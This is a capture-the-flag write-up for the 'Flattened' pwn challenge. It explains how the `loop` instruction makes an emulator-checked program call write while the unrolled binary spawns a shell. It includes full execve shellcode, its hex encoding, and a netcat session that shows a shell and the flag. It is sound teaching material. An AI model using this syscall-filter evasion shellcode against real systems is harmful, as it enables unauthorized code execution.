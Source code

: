 # Flattened

pwn medium, 18 solves, 471 points

### First Looks

Downloading the challenge and taking a look at `chall.py`,
we can see that the user's hex input is interpreted as x86-64 assembly amd executed by the Qiling binary emulation framework.
Each executed instruction is added to a list, then joined into a binary at the end which is run.
This is the idea of "flattening," loops are essentially unrolled into sequential instructions.
This is why all `loop` instructions are not added to the final list.

### The Problem

However, there is a catch, syscalls not in {0x1, 0x3c} = {SYS_write, SYS_exit} are flagged as illegal and causes the entire program to terminate.
So we cannot simply call `execve` or something similar to get a reverse shell.

```python
allowed_syscalls = {1, 0x3c}
if (
        capstone.x86_const.X86_GRP_INT in i.groups
        and ql.reg.eax not in allowed_syscalls
):
    print(f"[-] syscall = {hex(ql.reg.eax)}")
    raise ValueError("HACKING DETECTED!")
```

### Formulating a Plan
We need to write a assembly program such that the execution is different when unrolled. Our goal is to then have Qiling execute `write(STDOUT, NULL, 0)` (syscall 0x1) and after unrolling `execve('/usr/bin/sh', NULL, NULL)` (syscall 0x0b). Notice that on [x86-64](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) the `syscall` convention is is `rax(rdi, rsi, rdx, r10, r8, r9)`. So somehow if we can alter those registers in the unrolled version we are golden.

### Executing the Plan
I searched for all x86-64 instructions that branched on Google and found the "beauty" that is `loop <label>`. If `rcx` > 0 then it decrements `rcx` and jumps to the specified label. The key is that it has a side effect: `rcx` is modified. Since the unrolled version won't include this instruction, `rcx` will never be decremented. So we can use this to our advantage with the following snippet:

```
mov     rcx,1
l1:
loop    l1
```

Qiling: `rcx` = 0

Unrolled: `rcx` = 1 (only `mov` is executed, `loop` is a branching instruction so it was not included in unrolled assembly)

Now that we have this building block, what about altering `rax`, `rcx`, and `rdi`, thus changing the syscall? We can use `imul` with `ecx` to our advantage. For example consider:
```
mov     rax,58
imul    rax,rcx
syscall
inc     rax
```
There are no branching instructions but convince yourself that `rax` will be 59 on the unrolled executable and 1 on the Qiling executable.

### Final Assembly (shellcode)

```
xor     r15,r15                 # xor reg,reg is the same as zeroing that reg
push    r15
push    r15
mov     r15,0x68732f
push    r15
mov     r15,0x6e69622f7273752f  
push    r15                     # Put `/usr/bin/sh` on stack 8 bytes (characters) at a time

mov     rcx,1
l1:
loop    l1                      # rcx = qiling ? 0 : 1

mov     rax,58
imul    rax,rcx                 # rax = qiling ? 0 (write sycall number - 1) : 58 (execve syscall number - 1)
inc     rax                     # syscall = qiling ? 1 (write) : 59 (execve)

mov     rdi,rsp
dec     rdi
imul    rdi,rcx
inc     rdi                     # rdi = syscall arg0 = qiling ? 1 (STDOUT) : rsp (pointer to '/usr/bin/sh')

xor     rsi,rsi                 # zero out arg1
xor     rdx,rdx                 # zero out arg2
syscall                         # qiling ? write(STDOUT, NULL, 0) : execve('/usr/bin/sh', NULL, NULL)

mov     rax,0x3c
xor     rdi,rdi
syscall                         # exit(0)
```
### Final Input

We can use `pwntools` to assemble:

```python
from pwn import *

context.arch = "amd64"

print(asm(open('shellcode.S').read()).hex())
```

Which gives us: `4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05`

### Flag

```
❯ nc pwn.chall.pwnoh.io 13377


Enter code in hex:
4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05
[+] 0x11ff000: xor r15, r15
[+] 0x11ff003: push r15
[+] 0x11ff005: push r15
[+] 0x11ff007: mov r15, 0x68732f
[+] 0x11ff00e: push r15
[+] 0x11ff010: movabs r15, 0x6e69622f7273752f
[+] 0x11ff01a: push r15
[+] 0x11ff01c: mov rcx, 1
[ ] 0x11ff023: loop 0x11ff023
[+] 0x11ff025: mov rax, 0x3a
[+] 0x11ff02c: imul rax, rcx
[+] 0x11ff030: inc rax
[+] 0x11ff033: mov rdi, rsp
[+] 0x11ff036: dec rdi
[+] 0x11ff039: imul rdi, rcx
[+] 0x11ff03d: inc rdi
[+] 0x11ff040: xor rsi, rsi
[+] 0x11ff043: xor rdx, rdx
[+] 0x11ff046: syscall
[=]     write(fd = 0x1, buf = 0x0, count = 0x0) = 0x0
[+] 0x11ff048: mov rax, 0x3c
[+] 0x11ff04f: xor rdi, rdi
[+] 0x11ff052: syscall
[=]     exit(code = 0x0)
[+] Your program has been flattened! Executing ...
ls
chall.py
flag.txt
cat flag.txt
buckeye{execve_plu5_0n3_1s_exit}
```

Notice how the `loop` instruction is not included, and how `write` changes to our `execve` shell